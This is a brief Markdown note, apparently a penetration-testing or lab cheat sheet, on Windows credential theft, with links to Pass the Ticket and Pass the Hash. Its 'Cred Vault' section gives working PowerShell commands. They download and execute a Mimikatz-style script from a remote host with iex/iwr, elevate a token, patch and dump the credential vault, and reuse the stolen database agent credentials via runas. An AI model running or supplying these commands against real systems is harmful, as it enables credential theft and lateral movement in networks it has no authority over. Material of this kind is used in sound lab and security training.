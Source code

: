 # eKeys > [[Pass the Ticket]]


# SamDump > [[Pass the Hash]]


# Cred Vault > Scheduler Task 

Database agent account credentials extracted from credential vault
```powershell
PS > iex (iwr http://172.16.100.1/Invoke-Mimi.ps1 -UseBasicParsing)

PS > Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'

PS > runas /netonly /user:tech\databaseagent powershell.exe
```
